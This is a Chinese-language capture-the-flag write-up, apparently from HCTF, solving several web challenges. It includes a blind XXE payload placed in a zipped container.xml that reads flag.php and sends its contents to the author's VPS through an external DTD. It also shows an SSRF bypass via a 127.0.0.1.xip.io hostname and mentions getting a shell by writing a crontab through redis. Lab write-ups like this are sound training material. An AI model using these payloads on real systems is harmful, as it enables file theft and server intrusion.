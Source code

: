 根据代码肯定是一个xxe
http://rickgray.me/2015/06/08/xml-entity-attack-review.html
按上面的资料学习一发，锁定无回显的xxe
构造一个zip，META-INF目录下的container.xml，内容为

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM  "php://filter/convert.base64-encode/resource=flag.php">
				<!ENTITY % dtd SYSTEM "http://vps的ip/combine.dtd">
				%dtd;
				%send;
				]>
<container version="1.0" xmlns="urn:oasis:names:tc:opendocument:xmlns:container">
   <rootfiles>
      <rootfile full-path="content.opf" media-type="application/oebps-package+xml"/>
      
   </rootfiles>
</container>

```

http://vps的ip/combine.dtd的内容为

```
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://vps的ip/?content=%file;'>">
%payload;
```

Upload zip，然后read.php访问他，看直接的vps的access.log
就可以看到flag过来了





### 8. Web选手的自我修养

根据/tmp目录，home目录分析，发现了一个OPcahe恶意文件分析工具，猜测后门在OPcahce里，直接搜索OPcache，以hctf与hctf的base64为特征，搜索
find /tmp -type f -name "*.bin" |xargs strings| grep aGN
aGN0ZnswcGNBY2gzX2ZvMF9jUmFja30=
解码就是flag



### 9. AT field1,AT field2

考察SSRF技巧

1. AT field1

   http://www.127.0.0.1.xip.io
   Base64 解码，搞定
   参考：离别歌的博客
   https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html

2. AT field2

   http://www.127.0.0.1.xip.io用burp扫后台，能发现README.md，发现了提示有nosql，有crontab，那基本就是redis和crontab写文件来得shell
